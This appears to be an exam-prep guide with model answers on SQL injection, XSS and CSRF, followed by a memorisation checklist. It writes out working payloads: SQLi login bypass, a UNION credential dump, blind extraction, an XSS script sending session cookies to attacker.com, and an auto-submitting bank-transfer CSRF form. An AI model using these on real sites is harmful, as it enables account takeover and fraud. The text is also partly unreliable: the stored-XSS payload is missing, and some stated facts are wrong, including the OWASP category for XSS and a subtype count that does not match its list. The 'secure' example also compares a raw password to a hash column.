Explain the **OWASP-recommended remediation** for SQLi. Provide a **secure code snippet** in Python (using `sqlite3` or `psycopg2`) and justify why string concatenation is fundamentally insecure.

---

### Question A — Complete Model Solution

**Part (a) — Model Solution (7 Marks):**

**Payload 1: Authentication Bypass via Tautology (2 Marks)**

$$ \text{User Input: } \texttt{user=admin' OR '1'='1' --} \quad \text{Password: any value} $$

Resulting query executed by the DBMS:

$$ \texttt{SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anyvalue'} $$

**Explanation (Valuation Points):**
* The `--` is a SQL single-line comment, neutralizing the password clause. **[1 Mark]**
* The condition `OR '1'='1'` is a tautology (always TRUE), so the `WHERE` clause evaluates to TRUE for *every row* in the `users` table. **[1 Mark]**

**Payload 2: Union-Based Data Exfiltration (3 Marks)**

*Step 1: Determine column count* — Attacker probes with `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`. The first failing `ORDER BY N` value (say, 3) indicates the query selects **2 columns**.

*Step 2: Inject UNION SELECT*:

$$ \text{User Input: } \texttt{user=' UNION SELECT username, password FROM users --} $$

Resulting query:

$$ \texttt{SELECT * FROM users WHERE username='' UNION SELECT username, password FROM users --' AND password='...'} $$

**Explanation (Valuation Points):**
* The `UNION` operator requires equal column counts; padding with `NULL` resolves mismatches. **[1 Mark]**
* The two selected columns (username, password) are merged with the legitimate query result, displayed in the same response page. **[1 Mark]**
* All user credentials are exfiltrated in a single request, no blind inference required. **[1 Mark]**

**Payload 3: Boolean-Based Blind SQLi (2 Marks)**

$$ \text{User Input: } \texttt{user=admin' AND SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1)='a' --} $$

Resulting query:

$$ \texttt{SELECT * FROM users WHERE username='admin' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a' --' AND password='...'} $$

**Explanation (Valuation Points):**
* No data is returned in the HTTP body; the attacker observes only the page's presence/absence (or length differential). **[1 Mark]**
* The `SUBSTRING` function extracts a single character from the password. By iterating over positions and comparing to a character set (`a` to `z`, `0` to `9`), the attacker reconstructs the password character by character. **[1 Mark]**

---

**Part (b) — Model Solution (7 Marks):**

**The Root-Cause Principle (2 Marks):**

String concatenation conflates **CODE** (SQL syntax) with **DATA** (user input). A prepared statement sends the SQL template and the data in **separate protocol messages**, instructing the DBMS to treat the data strictly as *values*, never as *syntax*. This is enforced at the **DBMS protocol layer**, not at the application layer, and is therefore un-bypassable.

**Secure Python Code (3 Marks):**

```python
import sqlite3
import secrets
from flask import Flask, request, abort

app = Flask(__name__)

def authenticate_user(username: str, password: str) -> bool:
    """
    Authenticate a user using a parameterized query.
    :param username: user-supplied input (UNTRUSTED)
    :param password: user-supplied input (UNTRUSTED)
    :return: True if credentials are valid, False otherwise
    """
    if not username or not password:
        return False  # Absolute boundary check

    # Establish a short-lived, least-privilege connection
    conn = sqlite3.connect("app.db", isolation_level="DEFERRED")
    conn.execute("PRAGMA query_only = ON")  # Defense-in-depth: block writes
    cursor = conn.cursor()

    try:
        # SECURE: Parameterized query — input is bound as DATA, not CODE
        query = "SELECT id FROM users WHERE username = ? AND password_hash = ?"
        cursor.execute(query, (username, password))  # Bound parameters

        result = cursor.fetchone()
        return result is not None

    except sqlite3.Error as e:
        # Log error, do NOT expose internals to the client
        app.logger.error("Database error during authentication: %s", e)
        return False

    finally:
        cursor.close()
        conn.close()
```

**Justification of String-Concatenation Insecurity (2 Marks):**

| Aspect | String Concatenation (Insecure) | Parameterized Query (Secure) |
| :--- | :--- | :--- |
| **Parsing** | Input is parsed as SQL by the DBMS | Input is sent as opaque bytes after a `Bind` operation |
| **Escalation** | `'; DROP TABLE users; --` is executed | Treated as the literal string `'; DROP TABLE users; --` |
| **Bypassability** | WAF-evasion via encoding (e.g., `0x27` for `'`) | Un-bypassable at protocol level |
| **Performance** | DBMS must re-parse every query | DBMS caches the execution plan (one parse, many executions) |

> [!WARNING]
> **Examiner's Pitfall Warning:** Many students write a parameterized query but **omit input validation** (e.g., empty-string check). The 2024 KTU valuation key explicitly awards **1 mark for the boundary check** (`if not username or not password`). Additionally, never write `f"... {variable} ..."` — it is the same vulnerability as concatenation.

---

### Question B (14 Marks) — Alternative Choice
**[KTU University Exam — July 2024] | CO1, CO2 | Bloom Level: Apply & Analyze**

#### Part (a) — 7 Marks | Apply

A social-networking site has a search feature that reflects the user's query in the URL and in the page response without sanitization. A blog's comment system permanently stores user-submitted HTML. A banking portal accepts fund-transfer requests via POST without requiring any secondary token.

For each scenario, identify the **specific web attack** that can be launched, **construct a concrete attack payload**, and **describe the resulting impact** on a victim user.

#### Part (b) — 7 Marks | Analyze

Compare the **Synchronizer Token Pattern (STP)** and the **SameSite Cookie attribute** as defenses against CSRF. Which would you recommend for a single-page application (SPA) that uses a stateless REST API, and why? Justify with reference to the SOP, CORS, and credential-attachment semantics of modern browsers.

---

### Question B — Complete Model Solution

**Part (a) — Model Solution (7 Marks):**

**Scenario 1: Search Feature Reflecting Input (2.33 Marks)**

*Attack Identified:* **Reflected Cross-Site Scripting (Reflected XSS)**.

*Payload (constructed in a URL):*

```text
https://socialnet.com/search?q=<script>
  fetch("https://attacker.com/steal?c="+encodeURIComponent(document.cookie));
</script>
```

*Impact:* When a victim follows a phishing link containing this URL, the server reflects the unescaped `<script>` block into the response HTML. The browser executes the script in the origin context of `socialnet.com`, exfiltrating the victim's session cookie to the attacker's server. The attacker replays the cookie in his own browser, achieving **full account takeover** without ever knowing the user's password.

**[Valuation Point: Correct identification of the *reflected* (not stored) variant — 1 Mark]**
**[Valuation Point: Functional payload with exfiltration — 1 Mark]**
**[Valuation Point: Explicit statement of session-hijack impact — 0.33 Mark]**

**Scenario 2: Blog Comment System Storing HTML (2.34 Marks)**

*Attack Identified:* **Stored (Persistent) Cross-Site Scripting (Stored XSS)**.

*Payload (posted as a comment):*

```html
Nice article!

```

*Impact:* The malicious `` tag is persisted in the comment thread. Every visitor who opens the page triggers the `onerror` handler, which silently issues an authenticated AJAX request to change the victim's account email to one controlled by the attacker. The attacker then triggers a "forgot password" flow, receives the reset link via the attacker-controlled email, and **permanently owns the account**. This demonstrates the **worm-like self-propagation** potential of stored XSS.

**[Valuation Point: Stating *persistent* nature and *self-replicating* impact — 1 Mark]**
**[Valuation Point: Concrete payload (not just `<script>alert(1)</script>`) — 1 Mark]**
**[Valuation Point: Account-takeover via email-change attack chain — 0.34 Mark]**

**Scenario 3: Banking Portal Without CSRF Token (2.33 Marks)**

*Attack Identified:* **Cross-Site Request Forgery (CSRF)**.

*Payload (hosted on attacker domain):*

```html
<html>
  <body onload="document.forms[0].submit()">
    <form action="https://bank.com/api/transfer" method="POST">
      <input type="hidden" name="to" value="ACC-EVIL-9999">
      <input type="hidden" name="amount" value="500000">
      <input type="hidden" name="currency" value="INR">
    </form>
  </body>
</html>
```

*Impact:* The victim, while logged in to `bank.com`, visits the attacker's page. The hidden form auto-submits. The browser, per RFC 6265 cookie-attachment rules, includes the `bank.com` session cookie in the POST. The bank processes the transfer, and the funds are routed to the attacker's account. The victim receives no notification until the bank statement is reviewed.

**[Valuation Point: Stating the cookie-auto-attach mechanism — 1 Mark]**
**[Valuation Point: Three-condition trifecta (active session, cookie-only auth, no token) — 0.33 Mark]**
**[Valuation Point: Concrete hidden-form payload with auto-submit — 1 Mark]**

---

**Part (b) — Model Solution (7 Marks):**

**Synchronizer Token Pattern (STP) — 3 Marks:**

The server generates a cryptographically random token (typically 128 to 256 bits, encoded as a URL-safe Base64 string) per user session. The token is embedded in every state-changing form and validated on submission. **Strengths:** Cryptographically robust; effective even against XSS-augmented CSRF (if the XSS does not read the token's container). **Weaknesses:** Requires server-side session storage, complicating stateless architectures; cannot be applied to pure REST APIs without a session layer.

**SameSite Cookie Attribute — 3 Marks:**

The `SameSite` attribute (RFC 6265 bis) instructs the browser to *not* send the cookie on cross-site requests. Values: `Strict` (no cross-site at all), `Lax` (allows top-level GET navigation only — the **browser default since Chrome 80, 2020**), `None` (always sent, requires `Secure` attribute). **Strengths:** Zero server-side state; effective against the majority of CSRF; no application code changes required. **Weaknesses:** Does *not* protect against same-origin XSS-initiated CSRF; relies on browser compliance (older browsers like IE 11 lack support).

**Recommendation for an SPA with a Stateless REST API (1 Mark):**

For a single-page application consuming a stateless JWT-based REST API, **SameSite=Strict cookies (or `Lax` for top-level navigation flows) combined with the Double-Submit Cookie Pattern** is the canonical recommendation. Rationale:

* **Statelessness is preserved:** No server-side session table is required.
* **CORS compatibility:** `SameSite=Strict` works *in conjunction with* CORS, not against it. The CORS preflight (`OPTIONS`) ensures only whitelisted origins can make credentialed requests; the SameSite attribute adds a *second* independent layer by preventing cookie attachment on cross-site navigations.
* **SOP protection:** The Double-Submit pattern works because the attacker cannot read the cookie value from a different origin (SOP isolates `document.cookie` per origin), so he cannot echo it in a forged header.
* **Trade-off:** If the SPA requires the authentication cookie to be sent on cross-origin POSTs from a legitimate third-party (e.g., a partner integration), `SameSite=None; Secure` becomes necessary, and the defense must shift entirely to the token pattern.

> [!WARNING]
> **Examiner's Pitfall Warning:** A common error is recommending "use both" without explaining the **architectural trade-off**. KTU's 2024 valuation key requires explicit reference to the **stateless constraint** of the REST API and the **SOP isolation** that makes the double-submit pattern secure. Omitting these references caps your score at 5 of 7 marks.

---

## Topic Recap & Important Things to Remember

> [!TIP]
> **Rapid-Revision Checklist for KTU 2024 ESE (Module 3):**

* **SQLi:** Memorize the **3 in-band sub-types** (Error, Union) and **2 inferential sub-types** (Boolean Blind, Time Blind). Always end payloads with `--` (MySQL/PostgreSQL) or `-- -` (Oracle) for commenting. The **mitigation hierarchy** is: **Parameterized Queries $\rightarrow$ Stored Procedures $\rightarrow$ Input Whitelisting $\rightarrow$ WAF $\rightarrow$ Least-Privilege DB User**.

* **XSS:** Memorize the **3 primary types** (Stored, Reflected, DOM) and **1 emerging type** (Blind). The output-encoding context matters: **HTML context $\rightarrow$ `&lt;` `&gt;` `&amp;` `&quot;`**; **JavaScript context $\rightarrow$ `\xHH` hex escapes**; **URL context $\rightarrow$ percent-encoding**. Always cite **CSP** (`Content-Security-Policy` header) as a defense-in-depth layer.

* **CSRF:** Memorize the **3-condition trifecta** (active session, cookie-only auth, no token) and the **Synchronizer Token Pattern**. Know that **`SameSite=Lax` is the modern default** (Chrome 80+). For stateless REST APIs, the **Double-Submit Cookie Pattern** is the canonical defense.

* **Cross-Cutting Mnemonics:**
  * **"DATA vs. CODE"** — the entire problem of injection (SQLi, XSS, Command Injection, LDAP Injection) reduces to *failing to separate data from code*. State this phrase in any open-ended question.
  * **"Trust Boundary"** — every web attack exploits a trust-boundary violation. Always identify *which* boundary in your answer (User Input $\rightarrow$ Database, User Input $\rightarrow$ HTML, Cross-Origin $\rightarrow$ State).
  * **"Defense in Depth"** — no single mitigation is sufficient. Always recommend **at least three layers** (e.g., parameterized queries + WAF + least-privilege DB account).

* **CWE Numbers to Memorize:** **CWE-89** (SQLi), **CWE-79** (XSS), **CWE-352** (CSRF). Examiners frequently award bonus marks for citing the CWE identifier.

* **OWASP 2021 Ranking:** SQLi is **A03**, XSS falls under **A05** (Security Misconfiguration / Injection), CSRF is part of **A01** (Broken Access Control). Citing these in your answers signals current-affairs awareness.

* **The Two-State CSRF Rule:** Modern browsers default `SameSite=Lax`, which permits cookies on **top-level GET navigations** only. This means traditional ``-based CSRF is dead, but **POST-based CSRF** still requires token-based protection. State this nuance if the question involves modern browser defaults.

* **The PHP `htmlspecialchars` Function** is the de-facto output-encoding call. Memorize its signature: `htmlspecialchars($string, ENT_QUOTES, 'UTF-8')`. The `ENT_QUOTES` flag escapes both single and double quotes — failing to include it costs 1 mark in code-completion questions.

* **Same-Origin Policy (SOP)** is a browser-level isolation that confines scripts in one origin from reading resources of another. SOP is the *foundation* of web security — both XSS (which violates SOP by injecting code in a trusted origin) and CSRF (which exploits the fact that *cookies* ignore SOP for credentialed requests) are best explained in terms of SOP violations.

* **Session Cookies vs. Persistent Cookies:** Session cookies are deleted when the browser closes; persistent cookies have an explicit `Max-Age` or `Expires` attribute. CSRF is more dangerous with persistent cookies (longer attack window). XSS exfiltration is more devastating with persistent cookies (lifetime validity of the stolen token).

* **Quick Mental Formula for Defense Selection:** If the vulnerability is in **input handling** (SQLi, XSS) $\rightarrow$ *sanitize input and encode output*. If the vulnerability is in **request authentication** (CSRF) $\rightarrow$ *validate secondary tokens and constrain cookies*.

* **One-Liner Definitions to Memorize Verbatim:**
  * *"SQL Injection is the injection of malicious SQL statements into an application input field that is subsequently concatenated and executed by the backend database."*
  * *"Cross-Site Scripting is a client-side code-injection attack in which malicious scripts are injected into trusted web pages and executed in the victim's browser."*
  * *"Cross-Site Request Forgery is an attack that forces an authenticated user to submit a state-changing request to a web application against their will, leveraging the browser's automatic cookie-attach behavior."*

<!-- SECTION_5_END -->
